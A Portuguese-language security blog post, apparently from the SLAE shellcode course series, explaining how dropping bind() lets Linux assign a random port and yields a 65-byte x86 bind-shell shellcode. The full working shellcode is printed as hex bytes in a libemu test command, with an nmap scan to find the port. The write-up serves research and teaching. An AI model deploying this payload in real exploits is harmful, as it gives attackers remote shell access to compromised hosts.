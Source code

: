 ```yaml
---
layout: post
title: Hacking do Dia - Shell Bind TCP Random Port
date: '2013-03-18T23:00:00.000-03:00'
author: geyslan
categories: blog
excerpt: ""
tags: [slae, shellcode, linux, code, assembly, c, hacking, metasploit, portuguese]
share: true
modified: '2014-05-04T11:38:14.382-03:00'
blogger_id: tag:blogger.com,1999:blog-2541885528459487831.post-1583820687648973523
blogger_orig_url: http://www.hackingbits.com/2013/03/hacking-do-dia-shell-bind-tcp-random.html
---
```


*/\*<br>
Para melhor entendimento, leiam o post anterior [SLAE - 1st Assignment - Shell Bind TCP](/blog/slae-1st-assignment-shell-bind-tcp)<br>
\*/*

<!--more-->

*\<UPDATE\><br>
O [shellcode](http://shell-storm.org/shellcode/files/shellcode-834.php) final
deste post foi aceito no repositório [Shell-Storm](http://www.shell-storm.org/).<br>
Tks Jonathan Salwan.<br>
\</UPDATE\>*

*\<UPDATE 2\><br>
Foram incluídas no Metasploit as versões x86 e x86_64 deste payload.<br>
Tks Ewerson Guimarães (Crash), Tod Beardsley and all involved in Metasploit project.<br>
x86
[payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x86/shell_bind_tcp_random_port.rb)<br>
x86_64
[payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x64/shell_bind_tcp_random_port.rb)<br>
\</UPDATE 2\>*

Olá pessoal!

Comentários são sempre fantásticos. Sabem por quê?

Porque através da troca de conhecimento ideias surgem. E, havendo vontade, essas
ideias podem se transformar em algo útil.

Esta tarde, [Tiago Natel](https://twitter.com/_i4k_)
([SecPlus](http://www.secplus.com.br/)) me respondeu, com veemência e
propriedade, sobre o post [SLAE - 1st
Assignment](slae-1st-assignment-shell-bind-tcp.html)
na lista do [Brasil
Underground](https://groups.google.com/forum/?fromgroups#!forum/brasil-underground).
A informação que ele passou sobre shellcodes e o uso do **SO_REUSEADDR** foram
engrandecedoras para mim e os demais da lista.

Por e-mail, marcamos de debatermos o assunto, o que aconteceu no finalzinho da
tarde.

Fizemos, em conjunto, uns debbugs e traces dos shellcodes do metasploit e do que
disponibilizei via
[github](https://github.com/geyslan/SLAE/tree/master/1st.assignment).
Constatamos que realmente o do metasploit gera SIGSEGV quando a porta ainda está
em TIME_WAIT, uma vez que ao tentar fazer o bind, e não conseguir, o registrador
$eax recebe número negativo (erro) e fica poluído. Mesmo as novas cópias para
esse registrador não resolvem, já que, para se evitar null-bytes, os shellcodes
têm mov's usando o registrador $al, que copiam apenas 1 byte, deixando o resto
de $eax como está. Bom, dá para imaginar que o shellcode não vai funcionar muito
bem. :D

Identificamos, porém, que quando o meu shell_bind_tcp, sem opção SO_REUSEADDR,
era instanciado pela segunda vez, ou seja, com a porta da instância anterior
ainda em TIME_WAIT, o socket, ao ser criado, usava uma porta aleatória. De
início, achamos isso meio louco! Chegamos a pensar que a listen cuidava disso.
Eu pensei que era alguma coisa da libc, mas reproduzi o mesmo efeito com o
código asm (apenas com syscalls).

Nesse ínterim, Tiago, por ter bastante experiência, fez uma pesquisa rápida no
google e  encontrou informações a respeito do uso do bind no manual POSIX da
Fujitsu Siemens Computer
([SOCKETS/XTI(POSIX)](http://manuals.ts.fujitsu.com/file/4686/posix_s.pdf)).

Vejam o achado dele (pg. 23):

> 2.6.6 Automatic address assignment by the system<br><br>
You can still call a function for a socket which actually requires a bound
socket (e.g. connect(), sendto(), etc.), **even if the socket has no address
assigned to it. In this case, the system executes an implicit bind() call with
wildcards for the Internet address and port number, i.e. the socket is bound
with INADDR_ANY to all IPv4** addresses and with IN6ADDR_ANY to all IPv6 addresses
and IPv4 addresses of the host **and receives a free port number from the range of
non-privileged port numbers.**

O que isso quer dizer?

Se não tivermos feito bind no socket, ou se o bind não acontecer por não haver
endereço e/ou porta disponíveis, como identificamos no meu shell_bind_tcp sem
SO_REUSEADDR, ao se utilizar syscalls como connect, sendto, no nosso caso a
listen, o sistema se encarrega de fazer um bind genérico com o atributo
INADDR_ANY e de disponibilizar uma porta dentre os números não privilegiados.

De certa forma estávamos corretos, pois pensávamos que era a listen que estava a
fazer o bind automático; em verdade, foi através dela que o sistema se
encarregou de amarrar o socket a um endereço disponível.

*Sim, e daí?*

Os shellcodes não imploram para serem pequenos e se adequarem aos buffers
explorados?

Quase que instantaneamente tivemos a ideia de retirar o setsockopt (usado no meu
shellcode) e o próprio bind (usado em todos).

Vocês não imaginam o tamanho do novo
[shell_bind_tcp_random_port](https://github.com/geyslan/SLAE/tree/master/improvements)...

**Míseros 65 bytes**

{% highlight console %}
$ echo -e "\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc6\x5f\xb0\x66\xb3\x04\x52\x56\x89\xe1\xcd\x80\xb0\x66\x43\x89\x54\x24\x08\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\xeb\xca" | /opt/libemu/bin/sctest -vvv -Ss 100000 -G shell_bind_tcp_random_port.dot
{% endhighlight %}

{% include imagehb.html url="https://raw.github.com/geyslan/SLAE/master/improvements/shell_bind_tcp_random_port_shellcode.png" caption="Fluxograma do shell_bind_tcp_random_port" %}

*Ah, mas isso não serve! Do que adianta se eu não posso setar a porta?*

**nmap nele!**

{% highlight console %}
$ nmap -sS host -p-
{% endhighlight %}

Só tenho algo mais a dizer: **COMPARTILHEM!!**

*P.S.* Valeu, Tiago!

##Mais Informações

[Hacking bits - github](https://github.com/geyslan)<br> [Metasploit x86
payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x86/shell_bind_tcp_random_port.rb)<br>
[Metasploit x86_64
payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x64/shell_bind_tcp_random_port.rb)<br>
[SecPlus - github](https://github.com/SecPlus/)<br>
[SecPlus](http://www.secplus.com.br/)<br> [POSIX - SOCKETS/XTI for POSIX -
Manuals - Fujitsu](http://manuals.ts.fujitsu.com/file/4686/posix_s.pdf)<br>
[bind() - POSIX - IEEE Std
1003.1-2008](http://pubs.opengroup.org/onlinepubs/9699919799/functions/bind.html)<br>
[nmap](http://nmap.org/)<br> [Brasil
Underground](https://groups.google.com/forum/?fromgroups#%21forum/brasil-underground)<br>
